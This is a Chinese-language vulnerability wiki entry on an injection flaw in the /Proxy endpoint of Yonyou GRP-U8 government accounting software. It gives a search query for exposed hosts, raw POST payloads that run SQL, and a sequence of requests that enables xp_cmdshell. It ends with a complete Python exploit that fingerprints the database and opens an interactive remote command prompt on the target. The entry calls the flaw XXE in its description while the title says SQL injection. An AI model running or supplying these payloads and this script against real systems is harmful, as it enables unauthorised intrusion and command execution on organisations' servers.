

# 用友 GRP-U8 Proxy SQL注入 CNNVD-201610-923

## 漏洞描述

用友GRP-u8存在XXE漏洞，该漏洞源于应用程序解析XML输入时没有进制外部实体的加载，导致可加载外部SQL语句，以及命令执行

## 漏洞影响

```
用友GRP-U8行政事业内控管理软件（新政府会计制度专版）
```

## 网络测绘

```
title="用友GRP-U8行政事业内控管理软件"
```

## 漏洞复现

漏洞利用POC请求包

```xml
POST /Proxy HTTP/1.1
Accept: Accept: */*
Content-Type: application/x-www-form-urlencoded User-Agent: Mozilla/4.0 (compatible; MSIE 6.0;) Host: host
Content-Length: 357
Connection: Keep-Alive
Cache-Control: no-cache


cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION> <NAME>AS_DataRequest</NAME><PARAMS><PARAM> <NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM> <NAME>Data</NAME><DATA format="text">select @@version</DATA></PARAM></PARAMS> </R9FUNCTION></R9PACKET>
```

请求后按F12查看源代码可以得到SQL语句查询结果


也可以调用 **xp_cmdshell** 来执行系统命令(大部分此系统为**windows**)


- 注意：大部分默认是不开启 xp_cmdshell 模块的


可以使用如下方法打开**xp_cmdshell方法**

将如下POST数据按顺序发送(**注意 master 改为当前数据库名**)

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">use master</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec sp_configure 'show advanced options',1</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">reconfigure</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec sp_configure 'xp_cmdshell',1</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">reconfigure</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

- 发送如上实际为执行SQL语句打开 xp_cmdshell
  use master;
  exec sp_configure 'show advanced options',1;
  reconfigure;
  exec sp_configure 'xp_cmdshell',1;
  reconfigure;

再发送以下数据可成功使用(也可能失败)

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp_cmdshell "whoami"</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

- 执行过程中报错 java.sql.SQLException【错误代码: 0; 相关信息:xxxxxx】不用理会

发送请求后再使用此模块则会成功请求执行系统命令

## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech


import requests
import re
import sys


def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: 用友GRP-U8行政事业内控管理软件                                \033[0m')
    print('+  \033[36m使用格式: python3 CNNVD-201610-923.py                               \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
    print('+  \033[36m(Y/N)  >>> Y or N                                                  \033[0m')
    print('+  \033[36mcmd    >>> ipconfig                                                \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    check_url = target_url + "/Proxy"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = """cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">select 1,user,db_name(),host_name(),@@version</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>"""
    try:
        print("\033[32m[o] 正在执行SQL语句:select 1,user,db_name(),host_name(),@@version...\033[0m")
        response = requests.post(url=check_url, headers=headers, data=data, timeout=10)

        row_1 = '<ROW COLUMN1="1"'
        row_2 = r'COLUMN2="(.*?)"'
        row_3 = r'COLUMN3="(.*?)"'
        row_4 = r'COLUMN4="(.*?)"'
        row_5 = r'COLUMN5="(.*?)"'

        if row_1 in response.text and "服务器错误信息：null" not in response.text:
            db_user = re.findall(row_2, response.text)[0]
            db_name = re.findall(row_3, response.text)[0]
            db_host = re.findall(row_4, response.text)[0]
            db_vers = re.findall(row_5, response.text)[0]
            print("\033[32m[o] 存在漏洞，漏洞响应为:\033[0m")
            print("\033[32m >> 数据库用户为:{}\033[0m".format(db_user))
            print("\033[32m >> 数据库名为:{}\033[0m".format(db_name))
            print("\033[32m >> 数据库主机名为:{}\033[0m".format(db_host))
            print("\033[32m >> 数据库版本为:{}\033[0m".format(db_vers))
            return db_name
        else:
            print("\033[31m[x] 漏洞已被修复 \033[0m")
            sys.exit(0)
    except:
        print("\033[31m[x] 请求失败 \033[0m")
        sys.exit(0)

def xp_cmdshell_open(target_url, db_name):
    open_sql = ["use {}".format(db_name),"exec sp_configure 'show advanced options',1","reconfigure","exec sp_configure 'xp_cmdshell',1","reconfigure"]
    num = 1
    for sql in open_sql:
        open_url = target_url + "/Proxy"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Content-Type": "application/x-www-form-urlencoded"
        }
        data = 'cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">{}</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>'.format(sql)
        try:
            print("\033[32m[o] 正在执行SQL语句:{}...\033[0m".format(sql))
            response = requests.post(url=open_url, headers=headers, data=data, timeout=10)
            num = num + 1
            if num == 5 :
                POC_2(target_url, db_name)

        except:
            print("\033[31m[x] 开启 xp_cmdsheall 失败 \033[0m")
            sys.exit(0)

def POC_2(target_url, db_name):
    db_name = db_name
    sql_cmd_url = target_url + "/Proxy"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = """cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp_cmdshell "whoami"</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>"""
    try:
        print("\033[32m[o] 正在执行SQL语句:exec xp_cmdshell 'whoami'...\033[0m")
        response = requests.post(url=sql_cmd_url, headers=headers, data=data, timeout=10)
        if 'exec xp_cmdshell' in response.text:
            print("\033[31m[x] 数据库未开启 xp_cmdshell 模块\033[0m")
            sqlcmd_open = str(input("\033[35m是否开启 xp_cmdshell\n(Y/N)   >>> \033[0m"))
            if sqlcmd_open == 'Y' or sqlcmd_open == 'y':
                xp_cmdshell_open(target_url, db_name)
            else:
                print("\033[31m[x] 停止开启 xp_cmdshell \033[0m")
                sys.exit(0)
        else:
            whoami = re.findall(r'output="(.*?)"', response.text)[0]
            print("\033[32m[o] 成功执行SQL语句:exec xp_cmdshell 'whoami'...\n>>> {}\033[0m".format(whoami))

    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

def POC_3(target_url, cmd):
    vuln_url = target_url + "/Proxy"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = 'cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp_cmdshell "{}"</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>'.format(cmd)
    try:
        print("\033[32m[o] 正在执行SQL语句:exec xp_cmdshell '{}'...\033[0m".format(cmd))
        response = requests.post(url=vuln_url, headers=headers, data=data, timeout=10)

        data = re.findall(r'output="(.*?)"', response.text)
        for i in data:
            print("\033[32m >>> {}\033[0m".format(i))
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    db_name = POC_1(target_url)
    POC_2(target_url, db_name)

    while True:
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            sys.exit(0)
        else:
            POC_3(target_url, cmd)
```

